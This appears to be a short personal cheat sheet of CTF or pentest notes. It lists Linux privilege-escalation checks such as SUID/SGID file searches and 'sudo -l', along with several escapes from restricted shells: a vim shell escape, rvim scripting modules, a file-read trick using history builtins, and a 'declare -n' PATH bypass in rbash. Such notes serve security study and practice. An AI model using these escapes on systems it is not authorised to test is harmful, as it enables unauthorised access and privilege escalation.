 # Pwn

## Privilege escalation

This page has a great summary/cheatsheet of many different things to try when we have already a shell: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/). Specially things like `sudo -l` to list what you can do, or searching for files with _advanced_ Linux file permissions (`SUID`, `GUID`):

```
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
```

## Escaping a restricted shell

This is a well-known escape using `vim`:

```
:set shell=/bin/bash
:shell
```

With `rvim`, that doesn't allow the previous escape, it might still be possible to run code using `:python` or `:lua` modules. To list installed features use `:version`. 

Trick to read a file using only bash builtins (which are normally available in `rbash`):
```
function r() { history -c; export HISTSIZE=0; export HISTSIZE=10000; history -r $1; history; }
```

Normally on restricted shells `SHELL` and `PATH` variables are declared as read only (`-rx`). If they were writeable then we would be done escaping, since `SHELL` would allow us to swtich to the shell of our choice, and `PATH` could be set to any directory we want to execute files without `/`.  However, it turns out variables can be declared as something else in `rbash`: integer (`declare -i`), array (`declare -a`), associative array (`declare -A`) and _reference to the variable named by its value_. This could allow to write to `PATH` (or rather, to the variable defined by its value, which is a weirdly named variable, but valid it seems):

```
$ declare -n PATH
$ export PATH=/target
$ export
declare -x /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games="/target"
declare -nrx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
...
```
